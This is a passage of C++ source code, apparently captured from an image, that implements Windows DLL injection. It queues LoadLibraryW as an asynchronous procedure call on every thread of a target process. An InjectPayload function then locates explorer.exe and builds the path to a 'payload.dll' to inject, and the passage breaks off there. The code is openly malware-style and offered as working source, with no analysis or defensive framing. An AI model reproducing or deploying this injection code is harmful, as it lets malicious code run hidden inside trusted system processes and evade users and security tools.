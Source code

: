         HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
        LPTHREAD_START_ROUTINE loadLibraryAddr = 
            (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
            
        for (BOOL ret = Thread32First(hSnapshot, &te); ret; 
            ret = Thread32Next(hSnapshot, &te)) {
            if (te.th32OwnerProcessID == processId) {
                HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, te.th32ThreadID);
                if (hThread) {
                    if (QueueUserAPC((PAPCFUNC)loadLibraryAddr, hThread, (ULONG_PTR)remoteMem)) {
                        success = TRUE;
                    }
                    CloseHandle(hThread);
                }
            }
        }
        
        CloseHandle(hSnapshot);
        if (!success) {
            VirtualFreeEx(hProcess, remoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }
        
        CloseHandle(hProcess);
        return true;
    }
};

void InjectPayload() {
    DWORD targetPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return;
    
    PROCESSENTRY32W pe32;
    pe32.dwSize = sizeof(pe32);
    
    if (Process32FirstW(snapshot, &pe32)) {
        do {
            if (_wcsicmp(pe32.szExeFile, L"explorer.exe") == 0) {
                targetPID = pe32.th32ProcessID;
                break;
            }
        } while (Process32NextW(snapshot, &pe32));
    }
    
    CloseHandle(snapshot);
    
    if (targetPID == 0) return;
    
    wchar_t dllPath[MAX_PATH];
    GetModuleFileNameW(NULL, dllPath, MAX_PATH);
    std::wstring dllPathStr = dllPath;
    size_t lastBackslash = dllPathStr.find_last_of(L"\\");
    if (lastBackslash != std::wstring::npos) {
        dllPathStr = dllPathStr.substr(0, lastBackslash + 1) + L"payload.dll";
    }
    